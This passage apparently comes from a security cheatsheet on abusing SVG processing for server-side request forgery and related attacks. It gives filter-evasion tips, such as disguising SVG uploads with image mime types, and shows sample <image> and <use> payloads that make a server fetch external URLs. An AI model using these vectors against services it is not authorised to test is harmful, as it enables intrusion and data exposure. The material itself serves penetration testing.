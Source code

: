 # SVG SSRF Cheatsheet

Hosts that process SVG can potentially be vulnerable to SSRF, LFI, XSS, RCE because of the rich feature set of SVG.

All of these methods specify a URI, which can be absolute or relative. File and HTTP protocol are important to test, but it could also support other protocols depending on the implementation (e.g. PHP stream schemes), including javascript: and data:.

This document contains a list of all the ways I know about to abuse this functionality in SVG.

Note that some services that claim to not accept SVG as an input format actually do with a little coaxing.

* For uploads, send a JPEG/PNG mime type and filename.
* For downloads, have a JPEG/PNG filename and mime type. If refused, check for TOCTOU on the URL (double fetch) and if it follows redirects.
* I haven't seen it but Mime sniffing confusion is probably also possibleMime sniffing confusion as SVG is difficult to sniff because it can start with extra XML garbage. In fact, AFAICT the standard `file` command doesn't include any SVG magic, so it's likely up to the individual implementations.

# Images
SVG can include external images directly via the `<image>` tag.

``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
</svg>
```

Note that you can use this to include *other SVG* images too.

# The `<use>` tag

SVG can include external SVG content via the `<use>` tag.

file1.svg:
``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="https://example.com/file2.svg#foo"/>
</svg>
```

file2.svg:
```
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```
